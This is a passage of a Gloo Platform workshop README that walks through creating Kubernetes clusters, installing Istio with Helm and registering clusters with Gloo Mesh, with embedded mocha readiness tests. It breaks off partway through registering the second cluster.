


<!--bash
#!/usr/bin/env bash

source ./scripts/assert.sh
-->


# <center>Gloo Platform Workshop</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy KinD clusters](#lab-1---deploy-kind-clusters-)
* [Lab 2 - Deploy Istio](#lab-2---deploy-istio-)
* [Lab 3 - Deploy and register Gloo Mesh](#lab-3---deploy-and-register-gloo-mesh-)
* [Lab 4 - Deploy the Bookinfo demo app](#lab-4---deploy-the-bookinfo-demo-app-)
* [Lab 5 - Deploy the httpbin demo app](#lab-5---deploy-the-httpbin-demo-app-)
* [Lab 6 - Deploy Gloo Mesh Addons](#lab-6---deploy-gloo-mesh-addons-)
* [Lab 7 - Create the gateways workspace](#lab-7---create-the-gateways-workspace-)
* [Lab 8 - Create the bookinfo workspace](#lab-8---create-the-bookinfo-workspace-)
* [Lab 9 - Expose the productpage through a gateway](#lab-9---expose-the-productpage-through-a-gateway-)
* [Lab 10 - Traffic policies](#lab-10---traffic-policies-)
* [Lab 11 - Create the Root Trust Policy](#lab-11---create-the-root-trust-policy-)
* [Lab 12 - Leverage Virtual Destinations](#lab-12---leverage-virtual-destinations-)
* [Lab 13 - Zero trust](#lab-13---zero-trust-)
* [Lab 14 - Apply rate limiting to east west communication](#lab-14---apply-rate-limiting-to-east-west-communication-)
* [Lab 15 - See how Gloo Platform can help with observability](#lab-15---see-how-gloo-platform-can-help-with-observability-)
* [Lab 16 - Create the httpbin workspace](#lab-16---create-the-httpbin-workspace-)
* [Lab 17 - Expose an external service](#lab-17---expose-an-external-service-)
* [Lab 18 - Deploy Keycloak](#lab-18---deploy-keycloak-)
* [Lab 19 - Securing the access with OAuth](#lab-19---securing-the-access-with-oauth-)
* [Lab 20 - Use the JWT filter to create headers from claims](#lab-20---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 21 - Use the transformation filter to manipulate headers](#lab-21---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 22 - Apply rate limiting to the Gateway](#lab-22---apply-rate-limiting-to-the-gateway-)
* [Lab 23 - Use the Web Application Firewall filter](#lab-23---use-the-web-application-firewall-filter-)
* [Lab 24 - Expose the bookinfo application through GraphQL](#lab-24---expose-the-bookinfo-application-through-graphql-)
* [Lab 25 - Deploy the Amazon pod identity webhook](#lab-25---deploy-the-amazon-pod-identity-webhook-)
* [Lab 26 - Execute Lambda functions](#lab-26---execute-lambda-functions-)
* [Lab 27 - VM integration](#lab-27---vm-integration-)
* [Lab 28 - Extend Envoy with WebAssembly](#lab-28---extend-envoy-with-webassembly-)
* [Lab 29 - Gloo Mesh Management Plane failover](#lab-29---gloo-mesh-management-plane-failover-)


## Introduction <a name="introduction"></a>

[Gloo Mesh Enterprise](https://www.solo.io/products/gloo-mesh/) is a management plane which makes it easy to operate [Istio](https://istio.io) on one or many Kubernetes clusters deployed anywhere (any platform, anywhere).

### Istio support

The Gloo Mesh Enterprise subscription includes end to end Istio support:

- Upstream first
- Specialty builds available (FIPS, ARM, etc)
- Long Term Support (LTS) N-4 
- Critical security patches
- Production break-fix
- One hour SLA Severity 1
- Install / upgrade
- Architecture and operational guidance, best practices

### Gloo Mesh overview

Gloo Mesh provides many unique features, including:

- multi-tenancy based on global workspaces
- zero trust enforcement
- global observability (centralized metrics and access logging)
- simplified cross cluster communications (using virtual destinations)
- advanced gateway capabilities (oauth, jwt, transformations, rate limiting, web application firewall, ...)


### Want to learn more about Gloo Mesh

You can find more information about Gloo Mesh in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)


## Lab 1 - Deploy KinD clusters <a name="lab-1---deploy-kind-clusters-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=mgmt
export CLUSTER1=cluster1
export CLUSTER2=cluster2
```

> Note that in case you dont't have a Kubernetes cluster dedicated for the management plane, you would set the variables like that:
> ```
> export MGMT=cluster1
> export CLUSTER1=cluster1
> export CLUSTER2=cluster2
> ```

Run the following commands to deploy three Kubernetes clusters using [Kind](https://kind.sigs.k8s.io/):

```bash
./scripts/deploy-aws.sh 1 mgmt
./scripts/deploy-aws.sh 2 cluster1 us-west us-west-1
./scripts/deploy-aws.sh 3 cluster2 us-west us-west-2
```

Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh mgmt
./scripts/check.sh cluster1 
./scripts/check.sh cluster2 
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, when you execute the `kubectl get pods -A` command, you should see the following:

```
NAMESPACE            NAME                                          READY   STATUS    RESTARTS   AGE
kube-system          calico-kube-controllers-59d85c5c84-sbk4k      1/1     Running   0          4h26m
kube-system          calico-node-przxs                             1/1     Running   0          4h26m
kube-system          coredns-6955765f44-ln8f5                      1/1     Running   0          4h26m
kube-system          coredns-6955765f44-s7xxx                      1/1     Running   0          4h26m
kube-system          etcd-cluster1-control-plane                   1/1     Running   0          4h27m
kube-system          kube-apiserver-cluster1-control-plane         1/1     Running   0          4h27m
kube-system          kube-controller-manager-cluster1-control-plane1/1     Running   0          4h27m
kube-system          kube-proxy-ksvzw                              1/1     Running   0          4h26m
kube-system          kube-scheduler-cluster1-control-plane         1/1     Running   0          4h27m
local-path-storage   local-path-provisioner-58f6947c7-lfmdx        1/1     Running   0          4h26m
metallb-system       controller-5c9894b5cd-cn9x2                   1/1     Running   0          4h26m
metallb-system       speaker-d7jkp                                 1/1     Running   0          4h26m
```

You can see that your currently connected to this cluster by executing the `kubectl config get-contexts` command:

```
CURRENT   NAME         CLUSTER         AUTHINFO   NAMESPACE  
          cluster1     kind-cluster1   cluster1
*         cluster2     kind-cluster2   cluster2
          mgmt         kind-mgmt       kind-mgmt 
```

Run the following command to make `mgmt` the current cluster.

```bash
kubectl config use-context ${MGMT}
```


## Lab 2 - Deploy Istio <a name="lab-2---deploy-istio-"></a>

We are going to deploy Istio using Helm, but there are several other options. You can find more information in the [Istio documentation](https://istio.io/latest/docs/setup/install/).

First of all, let's Download the Istio release 1.17.3:

```bash
export ISTIO_VERSION=1.17.3
curl -L https://istio.io/downloadIstio | sh -
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("istioctl version", () => {
  it("version should be correct", () => helpers.genericCommand({ responseContains: "1.17.3", command: "./istio-1.17.3/bin/istioctl version --remote=false" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-istio/tests/istio-version.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Then, you need to create the `istio-system` and the `istio-gateways` namespaces on the first cluster.

```bash
kubectl --context ${CLUSTER1} create ns istio-system
kubectl --context ${CLUSTER1} create ns istio-gateways
```

Now, let's deploy the Istio control plane on the first cluster:

```bash
helm --kube-context=${CLUSTER1} upgrade --install istio-base ./istio-1.17.3/manifests/charts/base -n istio-system --set defaultRevision=1-17

helm --kube-context=${CLUSTER1} upgrade --install istio-1.17.3 ./istio-1.17.3/manifests/charts/istio-control/istio-discovery -n istio-system --values - <<EOF

revision: 1-17
global:
  meshID: mesh1
  multiCluster:
    clusterName: cluster1
  network: cluster1
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.17.3-solo
meshConfig:
  trustDomain: cluster1
  accessLogFile: /dev/stdout
  enableAutoMtls: true
  defaultConfig:
    proxyMetadata:
      ISTIO_META_DNS_CAPTURE: "true"
      ISTIO_META_DNS_AUTO_ALLOCATE: "true"
pilot:
  env:
    PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES: "false"
    PILOT_SKIP_VALIDATE_TRUST_DOMAIN: "true"

EOF
```

Note that we set the `trust domain` to be the same as the cluster name and we configure the sidecars to send their metrics and access logs to the Gloo Mesh agent.

After that, you can deploy the gateway(s):

```bash
kubectl --context ${CLUSTER1} label namespace istio-gateways istio.io/rev=1-17 --overwrite

helm --kube-context=${CLUSTER1} upgrade --install istio-ingressgateway ./istio-1.17.3/manifests/charts/gateway -n istio-gateways --values - <<EOF
name: istio-ingressgateway
labels:
  istio: ingressgateway
service:
  ports:
  - name: http2
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
EOF

helm --kube-context=${CLUSTER1} upgrade --install istio-eastwestgateway ./istio-1.17.3/manifests/charts/gateway -n istio-gateways --values - <<EOF
name: istio-eastwestgateway
labels:
  app: istio-ingressgateway
  istio: eastwestgateway
  topology.istio.io/network: cluster1
service:
  ports:
  - name: tcp-status-port
    port: 15021
    targetPort: 15021
  - name: https
    port: 16443
    targetPort: 16443
  - name: tls
    port: 15443
    targetPort: 15443
  - name: tcp-istiod
    port: 15012
    targetPort: 15012
  - name: tcp-webhook
    port: 15017
    targetPort: 15017
env:
  ISTIO_META_ROUTER_MODE: "sni-dnat"
  ISTIO_META_REQUESTED_NETWORK_VIEW: "cluster1"
EOF
```

As you can see, we deploy the control plane (istiod) in the `istio-system` and gateway(s) in the `istio-gateways` namespace.

One gateway will be used for ingress traffic while the other one will be used for cross cluster communications. It's not mandatory to use separate gateways, but it's a best practice.

Run the following command until all the Istio Pods are ready:

```bash
kubectl --context ${CLUSTER1} get pods -n istio-system && kubectl --context ${CLUSTER1} get pods -n istio-gateways
```

When they are ready, you should get this output:

```
NAME                      READY   STATUS    RESTARTS   AGE
istiod-5c669bcf6f-2hn6c   1/1     Running   0          3m7s
NAME                                     READY   STATUS    RESTARTS   AGE
istio-eastwestgateway-77f79cdb47-f4r7k   1/1     Running   0          2m53s
istio-ingressgateway-744fcf4fb-5dc7q     1/1     Running   0          2m44s
```
You need to create the `istio-system` and the `istio-gateways` namespaces on the second cluster.

```bash
kubectl --context ${CLUSTER2} create ns istio-system
kubectl --context ${CLUSTER2} create ns istio-gateways
```

Now, let's deploy the Istio control plane on the second cluster:

```bash
helm --kube-context=${CLUSTER2} upgrade --install istio-base ./istio-1.17.3/manifests/charts/base -n istio-system --set defaultRevision=1-17

helm --kube-context=${CLUSTER2} upgrade --install istio-1.17.3 ./istio-1.17.3/manifests/charts/istio-control/istio-discovery -n istio-system --values - <<EOF

revision: 1-17
global:
  meshID: mesh1
  multiCluster:
    clusterName: cluster2
  network: cluster2
  hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
  tag: 1.17.3-solo
meshConfig:
  trustDomain: cluster2
  accessLogFile: /dev/stdout
  enableAutoMtls: true
  defaultConfig:
    proxyMetadata:
      ISTIO_META_DNS_CAPTURE: "true"
      ISTIO_META_DNS_AUTO_ALLOCATE: "true"
pilot:
  env:
    PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES: "false"
    PILOT_SKIP_VALIDATE_TRUST_DOMAIN: "true"

EOF
```

After that, you can deploy the gateways:

```bash
kubectl --context ${CLUSTER2} label namespace istio-gateways istio.io/rev=1-17 --overwrite

helm --kube-context=${CLUSTER2} upgrade --install istio-ingressgateway ./istio-1.17.3/manifests/charts/gateway -n istio-gateways --values - <<EOF
name: istio-ingressgateway
labels:
  istio: ingressgateway
service:
  ports:
  - name: http2
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
EOF

helm --kube-context=${CLUSTER2} upgrade --install istio-eastwestgateway ./istio-1.17.3/manifests/charts/gateway -n istio-gateways --values - <<EOF
name: istio-eastwestgateway
labels:
  app: istio-ingressgateway
  istio: eastwestgateway
  topology.istio.io/network: cluster2
service:
  ports:
  - name: tcp-status-port
    port: 15021
    targetPort: 15021
  - name: https
    port: 16443
    targetPort: 16443
  - name: tls
    port: 15443
    targetPort: 15443
  - name: tcp-istiod
    port: 15012
    targetPort: 15012
  - name: tcp-webhook
    port: 15017
    targetPort: 15017
env:
  ISTIO_META_ROUTER_MODE: "sni-dnat"
  ISTIO_META_REQUESTED_NETWORK_VIEW: "cluster2"
EOF
```

<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
const chai = require("chai");
const expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Checking Istio installation", function() {
  let deployments = ["istiod-1-17"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "istio-system", k8sObj: deploy }));
  });
  deployments = ["istio-eastwestgateway", "istio-ingressgateway"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in cluster ' + process.env.CLUSTER1, () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "istio-gateways", k8sObj: deploy }));
  });
  deployments = ["istiod-1-17"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeployment({ context: process.env.CLUSTER2, namespace: "istio-system", k8sObj: deploy }));
  });
  deployments = ["istio-eastwestgateway", "istio-ingressgateway"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in cluster ' + process.env.CLUSTER2, () => helpers.checkDeployment({ context: process.env.CLUSTER2, namespace: "istio-gateways", k8sObj: deploy }));
  });
  it("Ingress gateways have an ip attached in cluster " + process.env.CLUSTER1, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
    cli = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways get svc istio-eastwestgateway -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
    
  });
  it("Ingress gateways have an ip attached in cluster " + process.env.CLUSTER2, () => {
    let cli = chaiExec("kubectl --context " + process.env.CLUSTER2 + " -n istio-gateways get svc istio-eastwestgateway  -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
    cli = chaiExec("kubectl --context " + process.env.CLUSTER2 + " -n istio-gateways get svc istio-ingressgateway  -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-istio/tests/istio-ready.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Check the status on the second cluster using:

```bash
kubectl --context ${CLUSTER2} get pods -n istio-system && kubectl --context ${CLUSTER2} get pods -n istio-gateways
```
<!--bash
until [[ $(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

Set the environment variable for the service corresponding to the Istio Ingress Gateway of the cluster(s):

```bash
export ENDPOINT_HTTP_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER1=$(kubectl --context ${CLUSTER1} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER1=$(echo ${ENDPOINT_HTTP_GW_CLUSTER1%:*})
export ENDPOINT_HTTP_GW_CLUSTER2=$(kubectl --context ${CLUSTER2} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80
export ENDPOINT_HTTPS_GW_CLUSTER2=$(kubectl --context ${CLUSTER2} -n istio-gateways get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
export HOST_GW_CLUSTER2=$(echo ${ENDPOINT_HTTP_GW_CLUSTER2%:*})
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER1 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER1 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER1, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GW_CLUSTER2 + "' can be resolved in DNS", () => {
    it(process.env.HOST_GW_CLUSTER2 + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GW_CLUSTER2, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 3 - Deploy and register Gloo Mesh <a name="lab-3---deploy-and-register-gloo-mesh-"></a>
[](https://youtu.be/djfFiepK4GY "Video Link")


First of all, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.4.2
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```

Run the following commands to deploy the Gloo Mesh management plane:

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).to.not.be.empty
    expect(process.env.CLUSTER1).to.not.be.empty
    expect(process.env.CLUSTER2).to.not.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).to.not.be.empty
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
helm repo add gloo-platform https://storage.googleapis.com/gloo-platform/helm-charts
helm repo update
kubectl --context ${MGMT} create ns gloo-mesh
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
--namespace gloo-mesh \
--kube-context ${MGMT} \
--version=2.4.2 \
 -f -<<EOF
licensing:
  licenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: mgmt
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
EOF
kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
```
<!--bash
kubectl --context ${MGMT} scale --replicas=0 -n gloo-mesh deploy/gloo-mesh-ui
kubectl --context ${MGMT} rollout status -n gloo-mesh deploy/gloo-mesh-ui
-->
<!--bash
kubectl wait --context ${MGMT} --for=condition=Ready -n gloo-mesh --all pod
until [[ $(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->
Then, you need to set the environment variable to tell the Gloo Mesh agents how to communicate with the management plane:
<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

describe("MGMT server is healthy", () => {
  let cluster = process.env.MGMT
  let deployments = ["gloo-mesh-mgmt-server","gloo-mesh-redis","gloo-telemetry-gateway","prometheus-server"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/check-deployment.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-and-register-gloo-mesh/tests/get-gloo-mesh-mgmt-server-ip.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

```bash
export ENDPOINT_GLOO_MESH=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH%:*})
export ENDPOINT_TELEMETRY_GATEWAY=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-telemetry-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):4317
```

Check that the variables have correct values:
```
echo $HOST_GLOO_MESH
echo $ENDPOINT_GLOO_MESH
```
<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GLOO_MESH + "' can be resolved in DNS", () => {
    it(process.env.HOST_GLOO_MESH + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GLOO_MESH, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
Finally, you need to register the cluster(s).

Here is how you register the first one:

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF
kubectl --context ${CLUSTER1} create ns gloo-mesh
kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER1} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER1} --from-file token=token
rm token
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds  \
--namespace=gloo-mesh \
--kube-context=${CLUSTER1} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace=gloo-mesh \
  --kube-context=${CLUSTER1} \
  --version=2.4.2 \
 -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

Note that the registration can also be performed using `meshctl cluster register`.

And here is how you register the second one:

```bash
kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster2
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF
kubectl --context ${CLUSTER2} create ns gloo-mesh
kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER2} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER2} --from-file token=token
rm token
helm upgrade --install gloo-platform-crds gloo-platform/gloo-platform-crds  \
--namespace=gloo-mesh \
--kube-context=${CLUSTER2} \
--version=2.4.2
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace=gloo-mesh \
  --kube-context=${CLUSTER2} \
  --version=2.4.2 \
 -f -<<EOF
common:
